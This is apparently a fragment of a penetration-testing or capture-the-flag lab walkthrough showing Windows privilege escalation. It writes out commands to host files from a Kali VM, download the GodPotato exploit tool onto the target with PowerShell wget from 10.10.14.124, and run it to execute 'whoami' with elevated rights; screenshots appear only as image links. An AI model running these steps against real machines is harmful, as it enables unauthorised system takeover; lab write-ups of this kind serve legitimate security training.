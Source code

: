 - **RUN in Kali VM: python3 -m http.server 80 (This starts the HTTP
  SERVER)**

- **RUN loggedin with POWERSHELL: wget
  [http://10.10.14.124/GodPotato-NET4.exe -O
  /temp/GodPotato-NET4.exe](http://10.10.14.124/GodPotato-NET4.exe%20-O%20/temp/GodPotato-NET4.exe)
  (uploads the file to SERVER)**

**Server:**

![](images/media/image58.png){width="4.255589457567804in"
height="1.1184831583552055in"}

**Kali VM:**

![](images/media/image59.png){width="4.270142169728784in"
height="0.6972528433945757in"}

**RUN in POWERSHELL: .\\GodPotato-NET4.exe -cmd "cmd /c whoami"**

![](images/media/image60.png){width="4.289099956255468in"
height="2.312318460192476in"}
